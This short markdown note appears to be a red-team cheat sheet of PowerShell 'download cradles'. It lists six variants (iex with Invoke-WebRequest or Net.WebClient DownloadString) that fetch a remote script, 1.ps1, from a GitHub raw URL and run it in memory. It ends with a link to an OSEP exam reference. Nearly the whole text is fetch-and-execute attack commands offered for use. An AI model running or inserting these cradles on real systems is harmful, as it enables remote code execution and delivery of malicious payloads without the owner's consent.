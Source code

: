 # Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1'))

iex ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
